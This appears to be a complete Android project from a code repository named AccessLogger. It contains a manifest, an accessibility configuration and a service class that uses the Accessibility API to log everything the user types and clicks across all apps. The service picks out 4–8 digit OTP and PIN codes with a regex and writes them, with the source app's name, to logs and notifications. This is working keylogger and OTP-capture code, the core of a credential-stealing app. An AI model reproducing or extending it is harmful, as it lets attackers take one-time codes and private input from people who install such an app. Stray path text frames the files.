 # <manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.accesslogger">

    <uses-permission android:name="android.permission.POST_NOTIFICATIONS"/>

    <application
        android:allowBackup="true"
        android:label="AccessLogger"
        android:supportsRtl="true"
        android:theme="@style/Theme.AppCompat.Light.NoActionBar">

        <service
            android:name=".logger.InputLoggerService"
            android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
            android:exported="true">
            <intent-filter>
                <action android:name="android.accessibilityservice.AccessibilityService" />
            </intent-filter>
            <meta-data
                android:name="android.accessibilityservice"
                android:resource="@xml/accessibility_config" />
        </service>

    </application>
</manifest>


---

2. res/xml/accessibility_config.xml

<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeViewTextChanged|typeViewFocused|typeViewClicked"
    android:packageNames=""
    android:accessibilityFeedbackType="feedbackSpoken"
    android:notificationTimeout="100"
    android:canRetrieveWindowContent="true"
    android:description="@string/app_name"
    android:settingsActivity=""
    android:accessibilityFlags="flagDefault" />


---

3. InputLoggerService.java

package com.example.accesslogger.logger;

import android.accessibilityservice.AccessibilityService;
import android.view.accessibility.AccessibilityEvent;
import android.util.Log;
import android.app.NotificationChannel;
import android.app.NotificationManager;
import android.os.Build;
import androidx.core.app.NotificationCompat;
import android.content.Context;

import java.util.regex.Matcher;
import java.util.regex.Pattern;

public class InputLoggerService extends AccessibilityService {

    private static final String TAG = "ACCESS_LOG";
    private static final String CHANNEL_ID = "otp_channel";
    private Pattern otpPattern = Pattern.compile("\\b\\d{4,8}\\b"); // 4-8 digit OTP/PIN

    @Override
    public void onAccessibilityEvent(AccessibilityEvent event) {
        if (event == null) return;

        String packageName = (event.getPackageName() != null) 
                ? event.getPackageName().toString() 
                : "UnknownApp";

        String text = (event.getText() != null) ? event.getText().toString() : "";

        // OTP/PIN শনাক্তকরণ
        Matcher matcher = otpPattern.matcher(text);
        if (matcher.find()) {
            String otp = matcher.group();
            Log.i(TAG, "OTP/PIN detected: " + otp + " | App: " + packageName);
            showNotification("OTP Detected", "App: " + packageName + " | Code: " + otp);
        } else if (!text.isEmpty()) {
            Log.i(TAG, "Text Input: " + text + " | App: " + packageName);
        }

        if (event.getEventType() == AccessibilityEvent.TYPE_VIEW_CLICKED) {
            Log.i(TAG, "Button Clicked in App: " + packageName);
        }
    }

    private void showNotification(String title, String content) {
        NotificationManager manager = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);

        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            NotificationChannel channel = new NotificationChannel(CHANNEL_ID, "OTP Notifications", NotificationManager.IMPORTANCE_HIGH);
            manager.createNotificationChannel(channel);
        }

        NotificationCompat.Builder builder = new NotificationCompat.Builder(this, CHANNEL_ID)
                .setContentTitle(title)
                .setContentText(content)
                .setSmallIcon(android.R.drawable.ic_dialog_info)
                .setAutoCancel(true);

        manager.notify((int) System.currentTimeMillis(), builder.build());
    }

    @Override
    public void onInterrupt() {
        Log.w(TAG, "Service interrupted");
    }
}


---

4. MainActivity.java

package com.example.accesslogger;

import androidx.appcompat.app.AppCompatActivity;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
    }
}


---

5. res/layout/activity_main.xml

<?xml version="1.0" encoding="utf-8"?>
<LinearLayout xmlns:android="http://schemas.android.com/apk/res/android"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    android:gravity="center"
    android:orientation="vertical">

    <TextView
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Accessibility Logger Active"
        android:textSize="18sp"/>
</LinearLayout>


---

6. res/values/strings.xml

<resources>
    <string name="app_name">AccessLogger</string>
</resources>


---

7. build.gradle (Module)

plugins {
    id 'com.android.application'
}

android {
    compileSdkVersion 34

    defaultConfig {
        applicationId "com.example.accesslogger"
        minSdkVersion 24
        targetSdkVersion 34
        versionCode 1
        versionName "1.0"
    }

    buildTypes {
        release {
            minifyEnabled false
            proguardFiles getDefaultProguardFile('proguard-android-optimize.txt'), 'proguard-rules.pro'
        }
    }
}

dependencies {
    implementation 'androidx.appcompat:appcompat:1.6.1'
    implementation 'androidx.core:core:1.12.0'
}gh-app-spike-test